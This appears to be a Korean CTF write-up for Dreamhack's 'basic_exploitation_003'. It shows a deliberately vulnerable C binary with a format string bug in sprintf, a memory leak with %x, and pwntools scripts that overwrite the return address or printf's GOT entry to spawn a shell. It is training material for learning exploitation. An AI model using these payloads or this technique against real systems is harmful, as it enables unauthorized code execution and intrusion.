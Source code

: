 ## basic_exploitation_003
---

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```

<br>

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

<br><br>

## Solution
---

sprintf로 포맷인자를 사용하지 않고 값을 넘겨주므로 fsb가 발생한다.

<br>

```
AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
ECHO : AAAA.41414141.3431342e.34313431.34332e31.34333133.332e6532.33313334.2e313334.33333433.31336532
```

<br>

두 번째 포맷인자에서 포맷스트링을 참조하는 것을 알 수 있다.

그래서 ret 주소를 포맷스트링 취약점을 이용해서 get_shell 주소로 덮어씌우고자 했다.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games',19024)

context.log_level = 'debug'

# ret = 0xffffd28c
ret_1 = 0xffffd28c
ret_2 = 0xffffd28e

# get_shell = 0x08048669

# 0x8669 - 8 = 34001
# 0x0804 - 0x8669 = -32357
# 0x10804 - 0x8669 = 33179

payload = p32(ret_1) + p32(ret_2) + b'%34001x%1$hn' + b'%33179x%2$hn'

p.send(payload)

p.interactive()
```

<br>

ret 주소는 main에 브레이크를 건 뒤 esp 값을 확인하면 알 수 있다.

따라서 2바이트씩 나누어서 덮어씌웠는데... 셸이 흭득되지 않는다.

이유를 찾아보니 stack_buf의 크기는 0x90인데 저 페이로드로 보내면 값이 다 담기지가 않게 되거나 아니면 출력 범위를 넘어서서 segmentation fault가 발생하거나 둘 중 하나라고 한다.

segmentation fault는 문구가 나오지 않아서 잘 모르겠다.

<br>

길이 지정자 중에 %hhn이 있는데 이 길이 지정자는 char 형태 즉, 1바이트만 읽게 된다.

따라서 %hhn을 이용해서 시도하면 된다고 하는데..

위의 풀이 방식은 잘못된거였다.

이 문제에는 2개의 풀이가 존재를 하는데, 하나는 fsb를 이용해서 bof를 일으켜서 ret의 주소를 바꾸는 것이고, 나머지 하나는 fsb를 이용해 printf의 got에 overwrite하는 것이다.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games',19209)

# solution 1 ---> fsb + bof + ret overwrite

# get_shell = 0x08048669
# payload = b'%156c' + p32(get_shell)
# p.sendline(payload)


# Solution 2 ---> fsb + got overwrite

# e = ELF('./basic_exploitation_003')
# printf_got = e.got['printf'] #  0x0804 84 66 -> 86 69

# payload = p32(printf_got) + p32(printf_got+1) + b'%97c%1$hhn%29c%2$hhn'
# p.sendline(payload)

p.interactive()
```
